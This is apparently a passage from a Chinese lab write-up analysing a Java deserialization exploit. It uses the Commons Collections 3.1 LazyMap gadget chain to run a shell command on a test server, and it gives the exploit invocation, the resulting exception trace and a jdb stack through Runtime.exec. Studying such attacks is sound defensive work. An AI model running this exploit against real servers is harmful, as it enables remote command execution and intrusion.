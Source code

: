 执行客户端:

java \
-cp "commons-collections-3.1.jar:." \
EvilClientWithLazyMap 192.168.65.23 1414 "/bin/touch /tmp/scz_is_here"

得手时服务端抛出异常:

Exception in thread "main" java.lang.ClassCastException: java.lang.UNIXProcess cannot be cast to java.util.Set
        at com.sun.proxy.$Proxy0.entrySet(Unknown Source)
        at sun.reflect.annotation.AnnotationInvocationHandler.readObject(AnnotationInvocationHandler.java:444)
        at sun.reflect.NativeMethodAccessorImpl.invoke0(Native Method)
        at sun.reflect.NativeMethodAccessorImpl.invoke(NativeMethodAccessorImpl.java:62)
        at sun.reflect.DelegatingMethodAccessorImpl.invoke(DelegatingMethodAccessorImpl.java:43)
        at java.lang.reflect.Method.invoke(Method.java:497)
        at java.io.ObjectStreamClass.invokeReadObject(ObjectStreamClass.java:1017)
        at java.io.ObjectInputStream.readSerialData(ObjectInputStream.java:1896)
        at java.io.ObjectInputStream.readOrdinaryObject(ObjectInputStream.java:1801)
        at java.io.ObjectInputStream.readObject0(ObjectInputStream.java:1351)
        at java.io.ObjectInputStream.readObject(ObjectInputStream.java:371)
        at VulnerableServer.main(VulnerableServer.java:22)

但恶意命令已被执行。

调试VulnerableServer:

java_8_40 -agentlib:jdwp=transport=dt_socket,address=192.168.65.23:8005,server=y,suspend=y \
-cp "commons-collections-3.1.jar:." \
VulnerableServer 192.168.65.23 1414

jdb -connect com.sun.jdi.SocketAttach:hostname=192.168.65.23,port=8005

stop in java.lang.Runtime.exec(java.lang.String[])

  [1] java.lang.Runtime.exec (Runtime.java:485), pc = 0
  [2] sun.reflect.NativeMethodAccessorImpl.invoke0 (native method)
  [3] sun.reflect.NativeMethodAccessorImpl.invoke (NativeMethodAccessorImpl.java:62), pc = 100
  [4] sun.reflect.DelegatingMethodAccessorImpl.invoke (DelegatingMethodAccessorImpl.java:43), pc = 6
  [5] java.lang.reflect.Method.invoke (Method.java:497), pc = 56
  [6] org.apache.commons.collections.functors.InvokerTransformer.transform (InvokerTransformer.java:125), pc = 30
  [7] org.apache.commons.collections.functors.ChainedTransformer.transform (ChainedTransformer.java:122), pc = 12
  [8] org.apache.commons.collections.map.LazyMap.get (LazyMap.java:151), pc = 18
  [9] sun.reflect.annotation.AnnotationInvocationHandler.invoke (AnnotationInvocationHandler.java:77), pc = 204
  [10] com.sun.proxy.$Proxy0.entrySet (null), pc = 9
  [11] sun.reflect.annotation.AnnotationInvocationHandler.readObject (AnnotationInvocationHandler.java:444), pc = 37
  [12] sun.reflect.NativeMethodAccessorImpl.invoke0 (native method)
  [13] sun.reflect.NativeMethodAccessorImpl.invoke (NativeMethodAccessorImpl.java:62), pc = 100
  [14] sun.reflect.DelegatingMethodAccessorImpl.invoke (DelegatingMethodAccessorImpl.java:43), pc = 6
  [15] java.lang.reflect.Method.invoke (Method.java:497), pc = 56
  [16] java.io.ObjectStreamClass.invokeReadObject (ObjectStreamClass.java:1,017), pc = 20
  [17] java.io.ObjectInputStream.readSerialData (ObjectInputStream.java:1,896), pc = 93
  [18] java.io.ObjectInputStream.readOrdinaryObject (ObjectInputStream.java:1,801), pc = 181
  [19] java.io.ObjectInputStream.readObject0 (ObjectInputStream.java:1,351), pc = 389
  [20] java.io.ObjectInputStream.readObject (ObjectInputStream.java:371), pc = 19
  [21] VulnerableServer.main (VulnerableServer.java:22), pc = 51
